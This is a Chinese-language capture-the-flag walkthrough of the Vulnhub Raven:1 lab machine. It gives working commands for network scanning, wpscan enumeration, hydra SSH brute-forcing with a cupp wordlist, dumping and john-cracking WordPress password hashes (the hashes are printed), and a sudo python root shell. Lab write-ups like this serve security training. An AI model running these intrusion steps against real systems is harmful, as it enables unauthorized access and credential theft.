






Vulnhub靶机渗透-Raven:1
0x01 Scan Host
nmap -p 80,22,21,25,3389,443 192.168.8.0/24ornetdiscover 192.168.8.0/24

来更加深入的扫描一下:
nmap -sS -sV -T5 -A -p- 192.168.8.156
0x02 Web Service
flag1
首先大致浏览了一遍，发现有个wordpress(建议把域名加入hosts):
用户名MICHAEL，既然是wp那就用wpscan，先更新下漏洞库:
wpscan --updatewpscan --url http://raven.local/wordpress/

WordPress version 4.8.12
Theme twentysenventeen version 1.3
root@NightsWatch:~/DesktopExploits: No ResultShellcodes: No Result//scan themes vulnerabilitywpscan --url http://192.168.0.101/wordpress/ --enumerate vt//scan pulgins vunlnerabilitywpscan --url http://192.168.0.101/wordpress/ --enumerate vp
同时这个主题也没有发现有什么东西，所以考虑爆一下后台(字典无果可cewl生成):
爆破的同时我进行了0x03的操作，拿到michael的ssh账号后，可以直接写入shell，并且还没有爆出后台密码，所以停止。
0x03 SSH Service
Open SSH 6.7p1并没有发现对应版本的Vunerability，用hydra爆一下:
hydra -l michael -P /usr/share/wordlists/fasttrack.txt ssh://raven.local并没有爆出密码，这里用cupp生成一个新的字典:
cupp -i
因为我们只知道目标姓名，其他一概不知，所以没有就回车.
爆出了密码，进入看看吧。
0x04 Privilege Escalation
michael@Raven:~$ uname -aLinux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux
没什么可以利用的，再看一下SUID:

没什么可以直接用的，并且michael没有sudo权限，但是发现了flag2.
flag2
看一下网站配置文件，或许有root呢？
Mysql的root权限，尝试用这个密码去登录ssh，但是并没有成功，登陆steven也没成功.
flag3
wp_content中发现了flag3
select * from wp_posts\G
所以考虑看一下mysql中存放的wp的密码:
select * from wp_users\Gmichael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/
这直接解肯定解不开了，想用John破解一下(如有shadow和passwd也可用john):
SELECT CONCAT(user_login, ":", user_pass) FROM wp_users INTO OUTFILE '/tmp/wordpress.txt';我们的字典用著名的rockyou，kali自带的:
root@NightsWatch:/usr/share/wordlists# lsdirb dirbuster fasttrack.txt fern-wifi metasploit nmap.lst rockyou.txt.gzroot@NightsWatch:/usr/share/wordlists# gzip -d rockyou.txt.gz
接下来用john:
john --wordlist=/usr/share/wordlists/rockyou.txt wordpress.txtemmm，先破着吧，要上操作系统原理了……
破出了steven的密码，尝试去登录ssh成功，因为前面内核和suid提权均失败，并且michael也没有sudo权限，那么看一下Steven是否有sudo权限:
sudo -l尝试用sudo python执行shell:
sudo python3 -c 'import pty; pty.spawn("/bin/sh")'emmm，失败……另一种:
sudo python -c 'import os; os.system("/bin/sh")'flag4
本次渗透值得注意的地方就是:
社会工程学密码字典生成的应用
john破解HASH的应用
hydra爆破各种协议的应用
得到的密码可能通用:例如得到wp的密码可以尝试登陆ssh
sudo提权

原创投稿作者：Railgun
作者博客：www.pwn4fun.com